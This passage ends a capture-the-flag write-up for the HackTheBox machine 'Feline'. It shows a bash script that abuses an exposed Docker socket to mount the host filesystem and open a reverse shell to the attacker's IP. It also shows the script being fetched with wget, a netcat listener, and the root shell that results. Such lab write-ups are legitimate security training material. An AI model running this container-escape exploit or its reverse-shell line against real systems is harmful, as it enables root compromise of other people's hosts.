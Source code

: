 
### Final Exploit

this little script will hlep us to do that.

```shell
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/10.10.14.68/8001 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
```


transfer this to target machine then execute and listen.

```shell
root@2d24bf61767c:~# wget http://10.10.14.68:6001/exploit.sh
Connecting to 10.10.14.68:6001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 639 [text/x-sh]
Saving to: ‘exploit.sh’

     0K                                                       100%  110K=0.006s

2020-10-05 11:04:30 (110 KB/s) - ‘exploit.sh’ saved [639/639]

root@2d24bf61767c:~# chmod +x exploit.sh
chmod +x exploit.sh
root@2d24bf61767c:~# ./exploit.sh
```

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]           
└──╼ $nc -nlvp 8001                                                                                            
Ncat: Version 7.80(https://nmap.org/ncat)                             
Ncat: Listening on :::8001                                 
Ncat: Connection from 10.10.10.205.                                     
Ncat: Connection from 10.10.10.205:44796.                                      
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
root@1431878d56a5:/# ls
root.txt
```

And we pwned the Box !

Thanks for reading.
